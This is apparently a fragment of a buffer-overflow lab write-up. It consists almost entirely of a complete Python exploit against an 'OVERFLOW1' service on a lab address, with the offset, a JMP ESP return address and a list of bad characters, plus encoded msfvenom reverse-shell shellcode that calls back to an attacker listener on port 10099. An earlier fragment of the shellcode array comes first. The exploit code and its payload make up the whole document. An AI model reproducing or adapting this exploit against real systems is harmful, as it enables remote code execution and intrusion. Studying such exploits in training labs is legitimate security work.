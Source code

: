 ```bash
buf += b"\x4e\x71\x1e\x85\x9c\x8e\x99\xcb\xd3\xfc\x4f\x9e\xb2"
buf += b"\x80\x4d\xc6\xa9\x15\x74\xd7\x5d\xa2\x19\x7f\x4a\x12"
buf += b"\x70\xf5\x6a\x01\xa3\xd2\x9b\x2c\x21\x76\x8b\x32\x9c"
buf += b"\xf0\x3a\x77\xd3\xb6\xd5\xe1\x2d\x1a\xf3\xa3\xd1\xe4"
buf += b"\x5d\xac\xfb\x90\x77\x49\x72\x51\xc7\x6a\x30\xb8\x2a"
buf += b"\x1d\xcd\x56\x90\xb7\x85\x8c\x5a\xa9\x8a\xaa\xf9\x71"
buf += b"\xdc\x8a\x97\xa5\x83\x56\xe8\x99\x4a\xef\x52\x71\x9f"
buf += b"\x51\x8b\x62\x0e\x76\x32\x5c\xe9\xdd\x4d\x9e\x7a\x50"
buf += b"\x0a\x4c\x1a\x4f\xc9\x57\x62\x5f\x03\x61\xd1\xe2\x94"
buf += b"\xcd\x22\xa1\xda\x35\xa9\x8b\x15\x44\x67\x5d\xbd\xa5"
buf += b"\x1f\xd8\x5c\xca\xfc\x8b\xe6\xeb\x81\x06\xe5\x7a\x67"
buf += b"\x38\x74\xfb\x95\x31\xf0\x16\xd2\xe6\xa6\xfb\x73\xfe"
buf += b"\x2a\xbf\x7a\x78\x31\x7a\x92\x6d\x08\xf6\x87\x8a\x59"
buf += b"\x62\x84\xb0\x29\x15\x6a\x08\x57\xcd\x51\xce\x33\x18"
buf += b"\x5f\xbf"
```

Updated the final exploit:

```python
#!/usr/bin/python
import socket

ip = '10.10.208.211'
port = 1337

# bad-chars \x00\x07\x2e\xa0

cmd = "OVERFLOW1 /.:/"
crash = 5000
offset = "A" * 1974
EIP = "\xAF\x11\x50\x62" # 625011AF   FFE4             JMP ESP
nop = "\x90" * 32

# msfvenom -p windows/shell_reverse_tcp LHOST=10.8.185.241 LPORT=10099 -e x86/shikata_ga_nai -i 3 -f py -b '\x00\x07\x2e\xa0' EXITFUNC=thread
buf =  b""
buf += b"\xdb\xd3\xd9\x74\x24\xf4\x5f\x29\xc9\xb1\x5f\xbd\xbe"
buf += b"\x73\xe9\xc0\x83\xc7\x04\x31\x6f\x15\x03\x6f\x15\x5c"
buf += b"\x86\x34\x01\x79\x1d\xe3\x76\xc4\x77\x1c\x5d\xa6\xd2"
buf += b"\xd0\x6b\x77\xba\x27\x06\x6d\x38\x22\xcc\x12\xfc\xb6"
buf += b"\x12\x48\x49\xe8\xd4\x6d\x63\x6f\x3e\x75\x52\xd1\xdc"
buf += b"\x22\x6d\xba\xb1\x29\xf6\xe7\xc0\xa9\x05\xcb\x44\x1a"
buf += b"\x6a\x51\x9b\x72\xb2\x1f\x0e\x97\x1f\xec\x58\x72\x4e"
buf += b"\x69\x8c\xc0\xb7\xdc\x02\x09\x3d\x5c\x2d\x9f\x9f\xa9"
buf += b"\x35\x9b\x3d\x9e\x6c\x14\xc2\xbf\x48\x8f\x67\x0d\x16"
buf += b"\x72\x21\x7f\x02\x54\xb0\x6e\xd0\x51\x1f\xe8\x6f\xe7"
buf += b"\x22\x85\x7e\xfb\x57\xba\xc2\x7e\x3b\xd5\x76\xf9\x8e"
buf += b"\x58\xfd\xdf\xf3\x8d\xbf\x88\x43\x6a\x5a\x65\xc3\x56"
buf += b"\x83\x0e\x02\xc2\xed\x46\xbe\xc4\x8f\xd8\x8f\xa7\xea"
buf += b"\xc4\x16\xba\x6c\xbd\xfd\xda\xe2\x41\x5e\xfd\x1a\xde"
buf += b"\x5b\xbb\xc8\xdd\x30\xae\x6a\x28\x08\x15\xbd\x28\x9d"
buf += b"\xb6\x28\xd7\x9c\x93\xd7\xff\xda\xeb\x44\xbb\x48\xcf"
buf += b"\x3b\x47\xaa\x5b\x06\x44\xa3\x90\xf5\xfb\xbe\x71\xfe"
buf += b"\xda\x6b\xeb\x99\xa2\xc0\x44\x36\xa5\x59\x0a\xf0\x1e"
buf += b"\xef\x9e\x24\xc1\x1c\x0b\xae\x73\xaf\xb2\x1b\x68\x3b"
buf += b"\x71\x54\xca\x81\xd1\x8f\x6f\x40\x30\x47\xa9\x37\xb0"
buf += b"\x04\xf0\x1d\x4d\x13\x61\xe8\x16\xd9\xc3\x9d\x89\x08"
buf += b"\x3f\x1e\x05\xca\xf5\x50\x3d\x3d\xd3\xa7\xdd\x58\xfa"
buf += b"\x1c\xd3\x29\xfe\xfc\x0e\xbd\x18\xda\xa9\x3b\xe9\x75"
buf += b"\x73\xa7\xcf\x85\xd5\x08\x02\x11\xf1\x54\xe8\x3d\x3e"
buf += b"\x2c\x0f\x0e\x5c\x65\x3e\xf4\xad\x2b\x37\x67\x05\x6d"
buf += b"\x48\x8f\x2d\x16\x71\x3a\xb9\xce\x8b\xe9\x7a\x32\x5a"
buf += b"\x85\xfb\x5f\xd0\x22\x95\x50\xd5\xe6\xcc\x3b\xc9\x1d"
```